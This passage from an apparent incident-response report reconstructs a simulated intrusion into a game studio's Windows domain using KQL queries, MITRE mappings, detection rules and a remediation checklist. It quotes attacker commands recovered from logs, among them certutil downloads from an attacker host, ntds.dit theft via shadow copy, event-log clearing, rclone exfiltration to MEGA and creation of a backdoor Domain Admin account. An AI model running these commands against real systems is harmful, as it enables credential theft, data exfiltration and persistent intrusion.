| where Computer contains "B9GHHO6"
| where EventCode_s == "8"
| extend SourceImage = extract("SourceImage'>([^<]+)", 1, Raw_s)
| extend TargetImage = extract("TargetImage'>([^<]+)", 1, Raw_s)
| extend TargetUser = extract("TargetUser'>([^<]+)", 1, Raw_s)
| project UtcTime_s, SourceImage, TargetImage, TargetUser
| sort by UtcTime_s asc
```



At `21:56`, `update.exe` injected into `spoolsv.exe` (`NT AUTHORITY\SYSTEM`) — establishing a permanent, elevated foothold inside the Windows Print Spooler, a service that runs continuously and is rarely inspected.

> **Why it matters:** T1548.002 has been publicly documented since 2017 yet remains effective. After this point, all attacker commands run as SYSTEM — the highest possible privilege on Windows. Every subsequent action in this report was performed with unrestricted access.

---

### Phase 5 — Credential Access

**MITRE: T1003.001, T1003.003, T1552.001**

The attacker pursued credentials at two levels: live session credentials from the workstation, and the full domain credential database from the DC.

**LSASS dump — Workstation:**

The attacker used direct syscalls to bypass Windows API monitoring (EventCode 10 — ProcessAccess). No LSASS access events were generated, evading standard EDR detection. However, the dump file creation was captured by Sysmon EventCode 11.

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where EventCode_s == "11"
| where TargetFilename_s has_any (".dmp", "lsass", "dump", "procdump")
| project UtcTime_s, Computer, Image_s, TargetFilename_s
| sort by UtcTime_s asc
```



| Field | Value |
|-------|-------|
| **Process** | `C:\Users\Public\update.exe` |
| **Dump Created** | `C:\Windows\System32\lsass.dmp` |
| **Timestamp** | `2026-01-30 21:48 UTC` |
| **Technique** | Direct syscalls (EventCode 10 absent — confirmed evasion) |
| **Location Rationale** | Hidden in System32 among thousands of legitimate files |

**NTDS.dit — Domain Controller (under 60 seconds):**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where Computer contains "EEU3IA2"
| where EventCode_s == "1"
| where CommandLine_s has_any ("vssadmin", "shadow", "ntds", "diskshadow")
| project UtcTime_s, User_s, CommandLine_s, Image_s
| sort by UtcTime_s asc
```



| Step | Timestamp | Command |
|------|-----------|---------|
| 1 | 23:34:56 | `vssadmin list shadows /for=C:` — reconnaissance |
| 2 | 23:35:04 | `vssadmin create shadow /For=C:` — snapshot created |
| 3 | 23:35:06 | `vssadmin list shadows /for=C:` — verified |
| 4 | 23:35:15 | `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\Windows\Temp\nyMdRNSp.tmp` |
| 5 | 23:35:17 | `vssadmin delete shadows /shadow="{0ed56514...}" /Quiet` — cover tracks |

> **Impact:** `ntds.dit` contains every username and password hash for every account in `emberforge.local`. Combined with `lsass.dmp` from the workstation, the attacker has offline access to all credentials. Full domain password reset — including `krbtgt` twice — is mandatory.

**Credential exposure audit — ruled out techniques:**

| Technique | Result |
|-----------|--------|
| Kerberoasting (EventCode 4769) | ❌ No evidence |
| AS-REP Roasting (EventCode 4768) | ❌ No evidence |
| DCSync (mimikatz/drsuapi) | ❌ No evidence |

---

### Phase 6 — Defense Evasion

**MITRE: T1036.005, T1070.001, T1105, T1218.011, T1553.005**

The attacker employed multiple overlapping defense evasion techniques throughout the operation.

**ISO MotW Bypass (Initial):**
The delivery vehicle — an ISO disk image — bypassed Windows SmartScreen because files extracted from mounted ISOs do not inherit the Mark-of-the-Web tag that triggers security warnings on downloaded executables. This is a well-known bypass used in targeted campaigns.

**LOLBin Abuse — certutil as downloader:**
`certutil.exe`, a legitimate Windows certificate management utility, was abused to download attacker tools from the staging server. No third-party download tools were needed.

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where EventCode_s == "1"
| where Computer contains "16V3AU4"
| where CommandLine_s contains "certutil"
| project UtcTime_s, User_s, CommandLine_s
| sort by UtcTime_s asc
```

```
certutil -urlcache -split -f http://sync.cloud-endpoint.net:8080/AnyDesk.exe C:\Users\Public\AnyDesk.exe
certutil -urlcache -f http://sync.cloud-endpoint.net:8080/update.exe C:\Users\Public\update.exe
```

**Masquerading — update.exe / WindowsUpdate task:**
The primary RAT was named `update.exe` and the scheduled persistence task `WindowsUpdate` — both designed to blend with legitimate Windows update activity in process lists and task schedulers.

**Temporary batch file execution wrapper (Impacket fingerprint):**
Every command on all three hosts was wrapped in a create-execute-delete pattern:
```
echo [command] > temp.bat  &  run temp.bat  &  del temp.bat
```
Files were deleted immediately after execution, leaving no scripts on disk — only Sysmon process creation logs preserved the commands.

**Log clearing — Domain Controller:**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where EventCode_s == "1"
| where Computer contains "EEU3IA2"
| where CommandLine_s has_any ("wevtutil", "Clear-EventLog", "cl", "clear")
| project UtcTime_s, User_s, CommandLine_s, Image_s
| sort by UtcTime_s asc
```



| Timestamp | Command | Log Cleared |
|-----------|---------|------------|
| 23:50:49 | `wevtutil cl Security` | Windows Security log |
| 23:51:06 | `wevtutil cl System` | Windows System log |
| 23:52:00 | `wevtutil cl Security` | Security log — second attempt |

> **Evasion failed:** Sysmon logs were NOT targeted and had already been forwarded to Sentinel in real time. The clearing commands themselves are permanently recorded in Sysmon EventCode 1. The evidence chain remains complete.

---

### Phase 7 — Lateral Movement

**MITRE: T1021.002, T1570, T1569.002**

Lateral movement occurred in two phases: an initial failed attempt via NTLM authentication, followed by successful movement using Impacket's remote service execution framework.

**Failed NTLM authentication — first attempt:**

```kql
EmberForgeX_CL
| where EventCode_s == "4625"
| where Computer contains "16V3AU4"
| where src_ip_s == "10.1.173.145"
| project TimeGenerated, Raw_s
```

Eleven consecutive failed logon attempts from the workstation (`10.1.173.145`) to the Server, all using NTLM authentication (`AuthenticationPackageName: NTLM`), error `0x80090308` (invalid token). The attacker attempted Pass-the-Hash using credentials from `lsass.dmp` — the hash was not accepted, forcing a pivot to Impacket.

**Tool staging via admin share:**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where EventCode_s == "1"
| where Computer contains "B9GHHO6"
| where CommandLine_s has_any ("net share", "net use", "New-SmbShare", "share")
| project UtcTime_s, User_s, CommandLine_s, Image_s
| sort by UtcTime_s asc
```



```
22:51 → net share tools=C:\Users\Public /grant:everyone,full
22:54 → netsh advfirewall firewall add rule name="SMB" dir=in action=allow protocol=tcp localport=445
```



**Tool distribution via C$ admin share:**
```
cmd.exe /c copy C:\Users\Public\update.exe \\10.1.57.66\C$\Users\Public\update.exe
```

**Impacket remote service execution — Server:**

```kql
EmberForgeX_CL
| where EventCode_s == "7045"
| where Computer contains "16V3AU4"
| extend ServiceName = extract("ServiceName'>([^<]+)", 1, Raw_s)
| extend ServiceFile = extract("ImagePath'>([^<]+)", 1, Raw_s)
| project TimeGenerated, Computer, ServiceName, ServiceFile, Raw_s
```



Random 8-character service names (`MzLblBFm`, `QjhJMWqS`, `pGJLIKnC`) are the Impacket fingerprint. Each service ran one command, wrote output to `C$\__output_XXXXXXXX`, then self-deleted. First command on every new host: `whoami`.

**Parent process confirmation — all lateral movement via spoolsv.exe:**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where EventCode_s == "1"
| where Computer contains "B9GHHO6"
| where CommandLine_s has_any ("net share", "netsh", "firewall", "net use")
| project UtcTime_s, User_s, CommandLine_s, Image_s, ParentImage_s
| sort by UtcTime_s asc
```

Every lateral movement command traces back to `spoolsv.exe` as parent — confirming the injected beacon was the orchestrator of all post-escalation activity.

> **Why it matters:** `spoolsv.exe` spawning `cmd.exe` is an immediate critical alert indicator. This single detection rule would have caught every lateral movement command in the attack.

---

### Phase 8 — Collection & Exfiltration

**MITRE: T1560.001, T1567.002**

All exfiltration activity occurred on the Server (`EC2AMAZ-16V3AU4`). The attacker identified the target directory `C:\GameDev` by browsing it remotely via admin shares (`cmd.exe /c dir \\10.1.57.66\C$\GameDev`) before compressing and uploading it.

**Compression (Living off the Land):**

```kql
EmberForgeX_CL
| where EventCode_s == "1"
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where CommandLine_s has_any ("7z", "7za", "rar", "Compress-Archive", "zip", "tar")
| project UtcTime_s, Computer, User_s, CommandLine_s, Image_s
| sort by UtcTime_s asc
```



```powershell
powershell.exe -c "Compress-Archive -Path C:\GameDev -DestinationPath C:\Users\Public\gamedev.zip"
```

`Compress-Archive` is a native PowerShell cmdlet — no third-party tools required, no AV signatures triggered.

**Exfiltration channel audit (confirming rclone as sole exfil path):**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where EventCode_s == "1"
| where CommandLine_s has_any ("rclone", "mega", "gdrive", "dropbox", "onedrive", "s3", "ftp", "curl", "wget", "cloud")
| project UtcTime_s, Computer, User_s, Image_s, CommandLine_s
| sort by UtcTime_s asc
```



| Channel | Status |
|---------|--------|
| DNS tunnelling | ❌ Ruled out — no suspicious query patterns |
| SMTP / email (port 25) | ❌ Ruled out — no port 25 activity |
| FTP (port 21) | ❌ Ruled out — no port 21 activity |
| HTTP (port 80) | ⚠️ 19 connections — C2 downloads only, not primary exfil |
| **HTTPS via rclone → MEGA** | ✅ **Confirmed primary exfiltration channel** |

**rclone execution — OPSEC failure captured:**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where Raw_s contains "rclone"
| where Raw_s contains "mega"
| project UtcTime_s, Computer, CommandLine_s, EventCode_s, Raw_s
| sort by UtcTime_s asc
```



The attacker made three rclone attempts. The second exposed credentials in plaintext when the config file failed:

```
rclone.exe copy C:\GameDev mega:exfil --mega-user jwilson.vhr@proton.me --mega-pass Summer2024! -v
```

**Network confirmation — exfil destination:**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where Computer contains "16V3AU4"
| where EventCode_s == "3"
| where Image_s contains "rclone"
| project UtcTime_s, Image_s, DestinationIp_s, DestinationPort_s, DestinationHostname_s
| sort by UtcTime_s asc
```



| Field | Value |
|-------|-------|
| **Destination IP** | `66.203.125.15` |
| **Destination Port** | `443` (HTTPS — encrypted) |
| **Destination Hostname** | `bt5.api.mega.co.nz` |
| **MEGA Account** | `jwilson.vhr@proton.me` |
| **Data Stolen** | `C:\GameDev` — full source code for *Neon Shadows* |

---

### Phase 9 — Persistence

**MITRE: T1053.005, T1547.001, T1219, T1136.002**

The attacker established five distinct persistence mechanisms across the environment, ensuring survival across reboots, log-outs, and partial remediation attempts.

**Scheduled Task — WindowsUpdate:**

```
schtasks /create /tn WindowsUpdate /tr C:\Users\Public\update.exe /sc onstart /ru system
schtasks /create /tn WindowsUpdate /tr C:\Users\Public\update.exe /sc onlogon
```

Created three times with two different triggers (`onstart` and `onlogon`) to ensure execution regardless of how the machine is accessed.

**AnyDesk — Remote Access Backdoor:**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where EventCode_s == "1"
| where CommandLine_s has_any ("AnyDesk", "anydesk.conf", "service.conf")
| project UtcTime_s, Computer, CommandLine_s, Image_s
| sort by UtcTime_s asc
```

| Action | Timestamp | Host | Command |
|--------|-----------|------|---------|
| Download | 22:10 | Server | `certutil ... AnyDesk.exe` |
| Launch | 22:19 | Workstation | `AnyDesk.exe --control` |
| Config read | 22:38 | Workstation | `type C:\ProgramData\AnyDesk\system.conf` |
| Silent mode | 22:38 | Workstation | `ad.security.interactive_access=2` |
| Password set | 22:40 | Workstation | `ad.security.unattended_access_password_hash=5e884898...` (SHA1 of `password`) |
| Service restart | 22:41 | Workstation | `net stop AnyDesk` / `net start AnyDesk` |
| Server install | 23:09 | Server | `AnyDesk.exe --install C:\ProgramData\AnyDesk --start-with-win --silent` |

**Startup Folder — AnyDesk.lnk:**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where EventCode_s == "11"
| where TargetFilename_s has_any ("Startup", "Start Menu")
| project UtcTime_s, Computer, Image_s, TargetFilename_s
| sort by UtcTime_s asc
```



`AnyDesk.lnk` placed in Startup folder on both Workstation and Server — AnyDesk launches silently on every user login.

---

### Phase 10 — Domain Compromise

**MITRE: T1003.003, T1136.002, T1098.003, T1552.001**

The Domain Controller was compromised using the same Impacket remote execution framework used on the Server. The same `whoami > vssadmin` sequence executed within seconds of DC arrival. After extracting `ntds.dit`, the attacker created a backdoor account and elevated it to Domain Admins — establishing a credential-based persistence mechanism that survives full endpoint rebuilds.

**DC Impacket services (EventCode 7045):**

```kql
EmberForgeX_CL
| where EventCode_s == "7045"
| where Computer contains "EEU3IA2"
| extend ServiceName = extract("ServiceName'>([^<]+)", 1, Raw_s)
| extend ServiceFile = extract("ImagePath'>([^<]+)", 1, Raw_s)
| project TimeGenerated, Computer, ServiceName, ServiceFile
| sort by TimeGenerated asc
```



**Backdoor account creation:**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where EventCode_s == "1"
| where Computer contains "EEU3IA2"
| where CommandLine_s has_any ("svc_backup", "net user", "useradd")
| project UtcTime_s, User_s, CommandLine_s, ParentImage_s
| sort by UtcTime_s asc
```




```
net user svc_backup P@ssw0rd123! /add /domain
net group "Domain Admins" svc_backup /add /domain
```

| Field | Value |
|-------|-------|
| **Account Created** | `svc_backup` |
| **Password (exposed)** | `P@ssw0rd123!` |
| **Group Added To** | `Domain Admins` |
| **Created By** | `EC2AMAZ-EEU3IA2$` (machine account — SYSTEM) |
| **Timestamp** | `2026-01-30 23:38 UTC` |

**Administrator credentials exposed — drive mapping on DC:**

```kql
EmberForgeX_CL
| where todatetime(UtcTime_s) between (datetime(2026-01-30 21:00) .. datetime(2026-01-31 00:00))
| where EventCode_s == "1"
| where Computer contains "EEU3IA2"
| where CommandLine_s has_any ("net use", "New-PSDrive")
| project UtcTime_s, User_s, CommandLine_s
| sort by UtcTime_s asc
```

```
net use Z: \\10.1.173.145\tools /user:EMBERFORGE\Administrator EmberForge2024!
```

The DC accessed the workstation's tool share using `Administrator` credentials — exposing the domain administrator password in plaintext in Sysmon logs.

> **Critical finding:** Even after full endpoint rebuild and malware removal, `svc_backup` with a known password remains a fully functional Domain Admin account. The attacker can authenticate directly using legitimate credentials — no malware required to regain access.

---

## 🚨 Detection Gaps & Recommendations

### Observed Gaps

| Gap | Impact | Evidence |
|-----|--------|---------|
| No alert on ISO file execution | Allowed MotW bypass to go undetected | Phase 1 |
| No alert on `certutil` downloading executables | LOLBin staging went undetected | Phase 2, 7 |
| No alert on `spoolsv.exe` spawning `cmd.exe` | All lateral movement commands missed | Phase 7 |
| LSASS dump via direct syscall bypassed EventCode 10 | Credential theft not detected in real-time | Phase 5 |
| No alert on random 8-char service names | Impacket lateral movement undetected | Phase 7 |
| AnyDesk not blocked by application control | Persistent remote access installed silently | Phase 9 |
| Credentials logged in plaintext via Sysmon | Policy gap — no DLP on command line logging | Phase 8 |

### Recommended Detection Rules

```
RULE 1 — ISO execution with DLL loading
IF ParentImage = explorer.exe
AND Image = rundll32.exe
AND CommandLine contains "D:\" OR "E:\"
THEN ALERT CRITICAL

RULE 2 — certutil download abuse
IF Image = certutil.exe
AND CommandLine contains "-urlcache" AND "http"
THEN ALERT HIGH

RULE 3 — Suspicious print spooler child
IF ParentImage = spoolsv.exe
AND Image IN (cmd.exe, powershell.exe)
THEN ALERT CRITICAL

RULE 4 — UAC bypass via fodhelper registry
IF EventCode = 13
AND TargetObject contains "ms-settings\shell\open\command"
THEN ALERT CRITICAL

RULE 5 — Impacket service fingerprint
IF EventCode = 7045
AND ServiceName matches regex [A-Za-z]{8}
AND ImagePath contains "%COMSPEC%"
THEN ALERT CRITICAL

RULE 6 — LSASS dump file creation
IF EventCode = 11
AND TargetFilename contains ".dmp"
AND Image NOT IN (WerFault.exe, known legitimate dumpers)
THEN ALERT CRITICAL

RULE 7 — rclone exfiltration
IF Image = rclone.exe
OR CommandLine contains "mega:" OR "gdrive:" OR "s3:"
THEN ALERT HIGH

RULE 8 — Sysmon service stopped
IF EventCode = 7036
AND ServiceName = "Sysmon"
THEN ALERT CRITICAL — IMMEDIATE RESPONSE
```

---

## 🛠️ Remediation & Containment Checklist

### 🔴 Immediate (0–4 hours)

- [ ] Isolate all three endpoints from the network
- [ ] Delete `svc_backup` from Active Directory immediately
- [ ] Reset `EMBERFORGE\Administrator` password — `EmberForge2024!` is exposed
- [ ] Reset `EMBERFORGE\lmartin` password
- [ ] Reset `krbtgt` password — **TWICE, 24 hours apart** (invalidates all Kerberos tickets)
- [ ] Block `*.cloud-endpoint.net` at DNS and firewall
- [ ] Block `104.21.30.237`, `172.67.174.46`, `66.203.125.15`
- [ ] Report `jwilson.vhr@proton.me` MEGA account to MEGA abuse team
- [ ] Preserve forensic images of all three endpoints before any remediation

### 🟠 Short Term (4–24 hours)

- [ ] Remove `C:\Users\Public\update.exe` from Workstation and Server
- [ ] Remove `C:\Users\Public\rclone.exe` and `rclone.conf`
- [ ] Uninstall AnyDesk from Workstation and Server
- [ ] Delete `C:\ProgramData\AnyDesk\system.conf`
- [ ] Delete `AnyDesk.lnk` from Startup folders on both hosts
- [ ] Delete scheduled task `WindowsUpdate` from Workstation
- [ ] Remove firewall rule `SMB` (port 445 inbound) from Workstation
- [ ] Delete `C:\Windows\System32\lsass.dmp`
- [ ] Delete `C:\Users\Public\gamedev.zip`
- [ ] Full domain password reset for all accounts (NTDS.dit stolen)

### 🟡 Medium Term (1–7 days)

- [ ] Rebuild all three compromised endpoints from clean images
- [ ] Full Active Directory audit — check for any additional backdoor accounts
- [ ] Review all Domain Admin group members
- [ ] Enable Credential Guard on all endpoints to protect LSASS
- [ ] Deploy application control — block `certutil` from making outbound HTTP connections
- [ ] Block ISO/IMG auto-mount or prompt on removable media
- [ ] Deploy recommended detection rules from section above
- [ ] Conduct phishing awareness training for all staff — focus on ISO delivery

### 🔵 Long Term (1–4 weeks)

- [ ] Enable Protected Process Light (PPL) for Sysmon
- [ ] Implement LAPS (Local Administrator Password Solution)
- [ ] Enable network segmentation between Workstation and DC
- [ ] Conduct purple team exercise to validate new detection rules
- [ ] Review and update incident response playbooks

---

## 🧾 Final Assessment

### Risk Conclusion

This was a targeted, sophisticated intrusion against EmberForge Studios. The attacker demonstrated pre-operational intelligence: the malicious file was named to appeal specifically to a Lead Artist, the delivery mechanism was chosen to bypass MotW protections, and the tooling (Impacket, rclone, AnyDesk) was staged on attacker-controlled infrastructure before the campaign began. The entire attack — from initial access to domain credential theft — was executed in under three hours.

The attacker achieved all primary objectives: access to the full game source directory, theft of all domain credentials, and establishment of multiple redundant persistence mechanisms. The use of direct syscalls for LSASS dumping and the attempt to clear event logs indicate awareness of defensive monitoring. However, the attacker made critical OPSEC errors — exposing their MEGA credentials, email address, and multiple plaintext passwords in command line arguments permanently captured by Sysmon.

The evidence chain is assessed as **complete** despite the log clearing attempt on the Domain Controller. Sysmon telemetry was forwarded to Sentinel before the clearing commands ran, and the clearing commands themselves are preserved in Sysmon logs. The attacker cannot be considered locked out until all seven persistence mechanisms are simultaneously addressed, including the `svc_backup` Domain Admin account and full domain password reset.

### Evidence Quality

| Source | Quality | Notes |
|--------|---------|-------|
| Sysmon process execution (EventCode 1) | 🟢 High | Complete — all commands logged |
| Sysmon network telemetry (EventCode 3/22) | 🟢 High | C2, lateral movement, exfil confirmed |
| Sysmon file creation (EventCode 11) | 🟢 High | Payload drops and LSASS dump confirmed |
| Sysmon process injection (EventCode 8) | 🟢 High | Both injections confirmed |
| Windows Security logs — DC | 🔴 Low | Cleared by attacker — reconstructed via Sysmon |
| Windows System logs — DC | 🔴 Low | Cleared by attacker — reconstructed via Sysmon |

---

## 📎 Analyst Notes

- Investigation conducted using Microsoft Sentinel on live log data from the `EmberForgeX_CL` table
- All evidence is reproducible via the KQL queries documented in each phase section
- Negative findings (Kerberoasting, AS-REP roasting, DCSync) documented and ruled out via targeted queries
- Security and System log gaps on the DC are mitigated by intact Sysmon telemetry
- All MITRE ATT&CK technique IDs reference the MITRE ATT&CK Enterprise framework v14+

### Lessons Learned

- ISO delivery as an initial access vector is increasingly common in targeted campaigns and requires dedicated detection at the mount/execution level, not just download scanning
- Centralised log forwarding (Sysmon → Sentinel) was the decisive defensive capability — endpoint-only logging would not have survived this attacker's cleanup
- The `spoolsv.exe > cmd.exe` parent-child relationship is a high-fidelity detection that would have flagged lateral movement significantly earlier
- Credential exposure via command line arguments underscores the need for command line auditing policies and DLP on process creation logs

---

*Report by: Károly Mathe | Log(n) Pacific Internship Programme | 2026-01-31*
*Classification: CONFIDENTIAL — TLP:AMBER — Do not distribute without authorisation*

